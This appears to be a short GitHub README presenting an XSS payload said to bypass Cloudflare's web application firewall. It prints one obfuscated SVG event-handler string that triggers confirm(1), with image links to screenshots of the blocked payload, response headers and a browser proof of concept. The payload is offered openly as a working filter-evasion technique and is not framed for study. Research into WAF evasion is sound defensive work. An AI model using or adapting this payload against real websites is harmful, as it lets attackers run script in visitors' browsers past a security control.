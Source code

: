 # Payloads-XSS-Bypass-WAF-CloudFlare

This repository will leave a zero-day XSS evaluated by me, to bypass the WAF Cloudflare.

Simple payload detected by CloudFlare:

![image](https://user-images.githubusercontent.com/66162160/184783085-5935835f-9da7-4192-914e-9215c0260b0a.png)
![image](https://user-images.githubusercontent.com/66162160/184783658-3dba58fa-30dd-4c19-9118-ec0dfed0be47.png)
![Uploading image.png…]()


Script Bypass WAF CloudFlare:


```sh
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``^1//
```

# Verificate response header:

![image](https://user-images.githubusercontent.com/66162160/184783183-0c1e21b5-68a8-4211-99d9-c1c66c498367.png)


#PoC Browser:

![image](https://user-images.githubusercontent.com/66162160/184782966-33c94d6e-17b0-43a3-ba7f-09b3bb6b1b27.png)
